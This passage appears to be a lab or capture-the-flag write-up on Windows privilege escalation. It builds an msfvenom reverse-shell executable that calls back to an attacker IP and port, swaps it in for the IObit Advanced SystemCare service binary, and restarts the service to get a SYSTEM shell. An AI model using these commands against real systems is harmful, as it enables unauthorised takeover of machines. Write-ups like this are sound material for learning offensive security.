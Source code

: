Generated a reverse shell executable file to replace `ASCService.exe` 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.32.24 LPORT=4422 -f exe > ASCService.exe
```

Transferred the file over to victim machine. 

- Stop the running service
```cmd
net stop "Advanced SystemCare Service 9"
```
- Copy `ASCService.exe` to target location
```cmd
copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\"
```
- Start the service
```cmd
net start "Advanced SystemCare Service 9"
```

Gained reverse shell as `nt authority\system`
![[Pasted image 20240813125445.png]]